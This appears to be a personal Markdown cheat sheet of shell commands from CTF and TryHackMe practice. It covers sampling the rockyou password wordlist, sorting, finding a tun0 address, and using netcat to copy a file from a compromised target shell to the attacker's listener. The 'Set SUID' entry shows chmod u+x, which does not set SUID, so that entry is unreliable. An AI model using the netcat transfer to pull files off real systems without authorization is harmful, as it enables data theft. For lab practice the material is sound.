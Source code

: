 # Fancy commands 

Some fancy command I forget time by time

## Table of Contents

- [Pick up some 5 random lines of a file](#pick-up-some-5-random-lines-of-a-file)
- [Set SUID permission](#set-suid-permission)
- [Sorting a text file](#sorting-a-text-file)
- [Transfer a file with nc between 2 computers](#transfer-a-file-with-nc-between-2-computers)
- [Other things not classified](#other-things-not-classified)

## Pick up some 5 random lines of a file

```commandline
head /usr/share/wordlists/rockyou.txt -n 10000 | shuf -n 5 -
```

## Set SUID permission

```commandline
chmod u+x <filename>
```

## Sorting a text file

```commandline
sort to_sort.txt > sorted.txt
```

## Transfer a file with nc between 2 computers

Let say we have a file on the target machine we want to transfer to the host machine: For the fun, let's first create a file on the target machine with some meaningful content we want to transfer.

```commandline
echo "Foo says bla bla to Bar" > /tmp/foo-message.txt
```

Now, we first need to put a `NetCat` listener on the host (destination) and then send it from the target (source).

On the host (the destination, the listener):

```commandline
root@kali:~/tryhackme/startup# nc -l -p 9999 > foo-message.txt
```

On the target:

```commandline
www-data@startup:/incidents$ nc -w 3 <IP-DESTINATION> 9999 < foo-message.txt
```

Where `-w 3` is the time out in seconds. See `nc -h` for more info.

## Other things not classified

```commandline
┌──(itchy㉿scratchy)-[~]
└─$ ifconfig tun0 | grep -i 'inet ' | awk -F' ' '{print $2}'
10.8.208.30
```
